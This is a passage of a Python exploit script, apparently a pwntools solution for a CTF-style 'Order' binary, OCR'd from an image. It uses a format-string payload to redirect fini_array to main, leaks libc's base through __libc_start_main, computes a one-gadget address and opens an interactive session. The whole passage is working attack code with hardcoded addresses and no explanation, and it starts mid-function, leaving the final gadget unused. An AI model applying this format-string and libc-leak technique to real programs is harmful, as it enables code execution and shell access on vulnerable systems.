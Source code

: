 ```python
    # Order 1: order1
    # Order 2: Order1: order1
    # try to construct format parameter too
    payload = 'FFFFFFF' + argv
    submit(payload)
    p.recvuntil('2: Order 1: ')


def exp():
    log.info('leak libc base')
    fini_array0 = 0x6011B8  # old: 0x400830
    main_addr = 0x400A39
    # make fini_array0 point to main
    # 13 for " 2: Order 1: "
    # 14 for "%31$p"
    padding = 0x0a39 - 13 - 14
    print hex(padding)
    fmtstr = "%31$p" + "%{}x".format(padding) + "%13$hn"
    fmt(fmtstr, p64(0x6011B8))
    libc_start_main_addr = int(p.recv(14), 16) - 240
    libc_base = libc_start_main_addr - libc.symbols['__libc_start_main']
    log.success('libc base: ' + hex(libc_base))
    one_gadget_addr = libc_base + 0x45216
    log.success('one gadget addr: ' + hex(one_gadget_addr))

    p.interactive()


if __name__ == "__main__":
    exp()
```
